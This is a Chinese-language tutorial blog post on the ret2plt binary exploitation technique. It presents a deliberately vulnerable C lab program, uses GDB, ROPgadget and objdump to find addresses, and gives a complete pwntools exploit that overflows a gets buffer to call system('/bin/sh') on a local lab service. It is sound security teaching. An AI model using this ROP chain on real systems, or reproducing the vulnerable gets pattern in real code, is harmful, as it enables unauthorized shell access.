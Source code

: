 ```yaml
---
title: "Day15－ret2plt"
date: 2024-09-29
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

昨天剛學完神奇的 one gadgets，今天我們將回到 PLT 表，介紹 ret2plt 的攻擊手法。如果沒有足夠的 gadgets 可供使用，並且無法 leak libc，我們可以將目標轉向 PLT。這種技巧通常被稱為 ret2plt。

## ret2plt

顧名思義，ret2plt 就是將執行流程返回到 PLT 表上。那麼，為什麼這樣做可以取得 shell 呢？我們先來看幾個例子：

- `write(1, "ret2plt", 7)` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image1.png)

- `puts("ret2plt")` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image2.png)

這些例子中，實際上都是輸出 "ret2plt" 這個字串。如果有可以利用的 PLT 表，就可以用更短的 chain 完成，而不需要尋找過多可用的 gadgets。類似的：

- `system("/bin/sh")` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image3.png)

這代表我們可以先透過 `gets` 或其他可以寫入的 PLT 將資料寫進可寫區域，然後把該區域當作 `system@plt` 的參數，這樣就可以將 `/bin/sh` 或 `sh` 寫入並呼叫 `system@plt`。如此一來，便能開啟 shell。

簡單來說，ret2plt 是透過 binary 中已有的函數，先準備好參數，然後直接呼叫這些函數來達成攻擊目的。即使在無法 leak libc 的情況下，也能透過返回 PLT 表來使用該函數，這就是 ret2plt。

## Lab

查看以下程式碼：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    system("echo 'Welcome to challenge!'");
    printf("Leave a message: ");
    gets(message);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2plt.c -o ./ret2plt/share/ret2plt -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先，程式在一開始使用了 `system` 來 echo 一段文字，這代表程式編譯時會有 `system@plt`。同時，程式也使用了 `gets`，這使得我們可以進行 buffer overflow 並輸入資料。題目中也沒有 Canary 和 PIE，符合我們進行 ret2plt 的條件。接下來，我們只需要確認以下資訊即可開始撰寫 exploit：

- 可以將資料寫在哪個位置
- 如何疊加 chain

首先，使用 GDB 查看可以寫入的區域。我們可以先執行 `gdb ./ret2plt`，然後設置中斷點 `b main`，執行 `r`，再使用 `vmmap` 查看程式的記憶體區塊。會發現 0x404000~0x405000 之間是可寫的區域。接著，我們可以從後面開始檢查，如 `x/10gx 0x405000-0x100`，發現這些地方沒有被寫入。因此，我們可以選擇 0x404f00 作為寫入位置。

![image](/images/iron2024/day15_image4.png)

![image](/images/iron2024/day15_image5.png)

接著，我們需要使用 `pop rdi` 將要輸入的位置傳遞給 `gets`，這可以透過 `ROPgadget --binary ret2plt | grep "pop rdi"` 找到。我們發現 0x40115a 是 `pop rdi; ret`。

![image](/images/iron2024/day15_image6.png)

接著，使用 `objdump` 查看 `gets@plt` 和 `system@plt` 的地址，輸入 `objdump -M intel -d ret2plt`。結果顯示 `gets@plt` 在 0x401050，`system@plt` 在 0x401030。同時，我們還要確認 padding 的大小，發現輸入會從 `rbp-0x10` 開始，因此 padding 是 `0x10+0x8=0x18`。

![image](/images/iron2024/day15_image7.png)

![image](/images/iron2024/day15_image8.png)

![image](/images/iron2024/day15_image9.png)

資訊確認完畢後，我們可以開始撰寫 exploit。

完整 exploit：

```python
from pwn import *

# r = process('../ret2plt/share/ret2plt')
r = remote('127.0.0.1', 10007)

pop_rdi = 0x000000000040115a
gets_plt = 0x401050
system_plt = 0x401030
bss = 0x404f00

payload = b"A" * (0x10 + 0x8) + p64(pop_rdi) + p64(bss) + p64(gets_plt) + p64(pop_rdi) + p64(bss) + p64(system_plt)

r.sendlineafter(b"Leave a message: ", payload)
r.sendline(b"/bin/sh")
r.interactive()
```

簡單來說，就是透過 `pop rdi; ret` 和 `gets@plt` 將 `/bin/sh` 寫入到 BSS 段，接著再使用 `pop rdi; ret` 將 BSS 段的資料傳遞給 `system@plt`，以此開啟 shell。

solve！！

![image](/images/iron2024/day15_image10.png)
